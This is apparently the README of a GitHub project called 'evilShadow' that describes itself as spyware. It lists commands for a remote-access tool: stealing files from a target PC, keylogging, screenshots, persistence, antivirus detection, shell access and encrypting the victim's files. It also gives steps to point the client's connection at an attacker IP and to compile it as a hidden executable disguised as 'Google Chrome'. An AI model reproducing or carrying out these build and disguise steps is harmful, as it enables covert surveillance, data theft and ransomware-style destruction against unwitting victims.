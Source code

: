# evilShadow

SpyWare. The project is currently developing…...


# Functions
(N/A) -> Not Implemented yet
```
                Aviable Commands:

                    | [!>] download <path>   -> Download A File From Target PC
                    ---------------------------------------------------------
                    | [!>] downloadDir <dir> -> Download A File From Target PC
                    ---------------------------------------------------------
                    | [!>] startTask         -> Monitoring & kill tasks managers
                    ---------------------------------------------------------
                    | [!>] check             -> Check For Administrator Privileges
                    ---------------------------------------------------------
                    | [!>] sysinfo           -> Get System Information
                    ---------------------------------------------------------
                    | [!>] shell             -> Enter Shell Mode 
                    ---------------------------------------------------------
                    | [!>] av                -> Try Detect Anti-Virus
                    ---------------------------------------------------------
                    | [!>] upload <path>     -> Upload local File To Target PC
                    ---------------------------------------------------------
                    | [!>] get <url>         -> Download A File To Target PC From Any Website
                    ---------------------------------------------------------
                    | [!>] persistence       -> Try to get persistence (needed root)
                    ---------------------------------------------------------
                    | [!>] lowpersistence    -> Try to get persistence (no root)
                    ---------------------------------------------------------
                    | [!>] exec <command>    -> Exec command in no shell mode
                    ---------------------------------------------------------
                    | [!>] cryptDir <dir>    -> Crypt a full folder in target
                    ---------------------------------------------------------
                    | [!>] crypt <file>      -> Crypt a file in target
                    ---------------------------------------------------------
                    | [!>] keylog_dump       -> Dump The Keystrokes From Keylogger
                    ---------------------------------------------------------
                    | [!>] screenshot        -> Take a screenshot
                    ---------------------------------------------------------
                    | [!>] cryptAll          -> (N/A) Close connex and crypt full system
                    ---------------------------------------------------------
                    | [!>] destruction       -> (N/A) Eliminate all and close conect
                    --------------------------------------------------------- 
                    | [!>] q                 -> Suspend the conection
                    ---------------------------------------------------------
                    | [!>] exit              -> Terminate the conection
                    ---------------------------------------------------------
```

# Detections:
![image](https://github.com/an0mal1a/evilShadow/assets/129337574/684c71c5-eef2-41f4-bc99-82dd05dbe260)
hash: 8f361df2687c1d5ac2c9a251ab8903cea2de914305420842b566726926903b5b



## New Enviorment:
- **¿Por que?**
    
  - Una de las razones es para no tener conflictos y no tener otras librerias al compilar.
  - Al crearnos un nuevo entono virtual, el .exe estará cargado con las librerias instaladas en ese entorno.
  - El .exe / .bin pesará de **"30MB"** a **"14MB"**
    

- Windows:
   1. `python -m venv new`
   2. `.\new\Scripts\activate`

    
 - Linux:
   1. `python3 -m venv new`
   2. `new/bin/activate`

PD: Para salir de este entorno, con el comando **"deactivate"** salimos del enterno nuevo de vuelta al del sistema


# Requirements

Automated:

- ```pip install -r requirements.txt```

Manal:

- ```pip install prompt_toolkit colorama psutil cryptography requests pillow pynput pyinstaller```


# Errors:

- Si tenemos errores con las librerias (module not found):
  - ````pip install prompt_toolkit colorama psutil cryptography requests pillow pynput pyinstaller``` 


- Si tenemos el error **"pyinstaller not found"** en el *nuevo entorno*!

    - **Windows**
      - where pyinstaller
      
            D:\ProtectosPython\ETHICAL_HACKING\winenv\Scripts\pyinstaller.exe
            C:\Program Files\Python310\Scripts\pyinstaller.exe``
    
      - Usar ruta completa de pyinstaller (nuevo)
      
             D:\ProtectosPython\ETHICAL_HACKING\winenv\Scripts\pyinstaller.exe --noconsole ....
    


# Preparación:


En el script **Connection.py** en la línea *239* tenemos la línea que crea la conexión. La modificamos a la direccion ip
del atacante

-     sock.connect ( ( '127.0.0.1' ,1337) )

Una véz hecho esto podremos ejecutar el script, no requerimos de ningún cambio más.


# **Compilación**

- Tenemos varias opciones: (Accedemos a la carpeta CLIENT)

  ### Automatic
    - `client>pyinstaller Compilation.spec`

  ### Windows:

  - Admin Required:
  
      `client>pyinstaller --onefile --clean --noconsole --noupx --strip --uac-admin -n "Google Chrome" conection.py`

  - **NO** Admin Required:
  
      `client>pyinstaller --onefile --clean --noconsole --noupx --strip -n "Google Chrome" conection.py`

  ### Linux:
  
  `client>pyinstaller --onefile --clean --noconsole --noupx --strip -n "Google Chrome" conection.py`
